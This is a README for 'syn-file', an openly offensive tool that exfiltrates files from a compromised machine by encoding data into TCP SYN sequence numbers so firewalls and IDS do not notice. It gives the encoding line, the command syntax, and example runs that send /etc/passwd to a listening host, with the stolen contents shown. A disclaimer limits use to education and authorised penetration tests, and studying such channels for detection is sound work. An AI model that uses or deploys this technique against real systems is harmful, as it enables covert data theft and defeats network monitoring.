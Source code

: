 # syn-file

Exfiltrate data from a compromised target using covert channels abusing TCP SYN header data.


## Intro
**syn-file** is a tool that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to TCP SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

In that manner it is possible to exfiltrate data from a machine running the command **syn-file** to another machine
that is listening on the wire running **syn-daemon**.



## Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section...
but that looks quite suspicious and is very easy to spot using a network sniffer, as Wireshark.

However I have not seen any tool to deploy covert channels using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


## usage / example


### syn-daemon (server)
```
# ./syn-daemon -i iface -s source_ip -f file_for_exfiltrated_data
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN: 1] [SEQ #: 0x61743a78]
#    2 [SYN: 1] [SEQ #: 0x3a32353a]
#    3 [SYN: 1] [SEQ #: 0x32353a42]
#    4 [SYN: 1] [SEQ #: 0x61746368]
#    5 [SYN: 1] [SEQ #: 0x206a6f62]
#    6 [SYN: 1] [SEQ #: 0x73206461]
#    7 [SYN: 1] [SEQ #: 0x656d6f6e]
#    8 [SYN: 1] [SEQ #: 0x3a2f7661]
#    9 [SYN: 1] [SEQ #: 0x722f7370]
#   10 [SYN: 1] [SEQ #: 0x6f6f6c2f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



### syn-file (client / target machine)
```
# ./syn-file -i interface -d dst_ip -f file_to_exfiltrate -p dst_port -P src_port -m MAC_address_server
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
-m MAC address server / syn-daemon
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5c
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ #: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ #: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ #: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ #: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ #: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ #: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ #: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ #: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ #: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ #: 0x6f6f6c2f] [Wrote 74 bytes]
...
```

## Disclaimer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved

(c) 2017 defensahacker
